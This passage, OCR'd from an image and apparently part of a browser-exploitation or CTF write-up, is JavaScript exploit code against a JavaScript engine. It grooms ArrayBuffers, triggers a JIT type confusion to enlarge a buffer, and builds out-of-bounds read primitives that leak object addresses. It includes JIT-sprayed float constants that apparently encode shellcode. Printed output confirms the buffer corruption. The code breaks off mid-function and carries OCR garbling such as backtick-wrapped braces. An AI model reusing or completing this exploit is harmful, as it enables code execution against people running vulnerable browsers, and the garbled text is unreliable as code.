 ```
`}`

function some(buf,addr)`{`
    buf.jjj=i2f(addr);
`}`
function pwn()`{`
    buf=[];
    for(let i=0;i&lt;0x10;i++)
        buf.push(new ArrayBuffer(0x60));
    var abuf = buf[5];
    var e=new Uint32Array(abuf);
    e[0]=0x61626364;
    e[1]=0x31323334;
    const arr = [e,e,e,e,e];
    function vuln(a1)`{`
        if(arr.length==0)`{`
            arr[3] = e;
        `}`
        const v11 =  arr.pop();
        v11[a1] = 0x100;
        for(let i =0;i&lt;100000;i++)`{``}`

    `}`
    p =  [new Uint8Array(abuf),e,e];
    arr.__proto__=p;
    for(let i=0;i&lt;2000;i++)`{`
        vuln(34);
    `}`

    for(let i=0;i&lt;buf.length;i++)
        print(i+' '+ buf[i].byteLength);

    var oob = new Uint32Array(buf[6]);
    var oob64 = new Float64Array(buf[6]);
    var victim = new Uint32Array(buf[7]);
    var victim64 = new Float64Array(buf[7]);

    func = function func() `{`
      const magic = 4.183559446463817e-216;

      const g1 = 1.4501798452584495e-277
      const g2 = 1.4499730218924257e-277
      const g3 = 1.4632559875735264e-277
      const g4 = 1.4364759325952765e-277
      const g5 = 1.450128571490163e-277
      const g6 = 1.4501798485024445e-277
      const g7 = 1.4345589835166586e-277
      const g8 = 1.616527814e-314
    `}`
    buf[7].leak = func;
    for (i=0;i&lt;100000;i++) func();


    buf7_addr = f2i(oob64[16])*2 - 0x40 ;    
    buf7_group_addr = f2i(oob64[12]);    
    buf7_slots_addr = f2i(oob64[14]);    

    print("buf7_addr "+hex(buf7_addr));
    print("buf7_group_addr "+hex(buf7_group_addr));
    print("buf7_slots_addr "+hex(buf7_slots_addr));

    function readptr(addr)`{`
        oob64[16] = i2f(addr/2);
```

[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96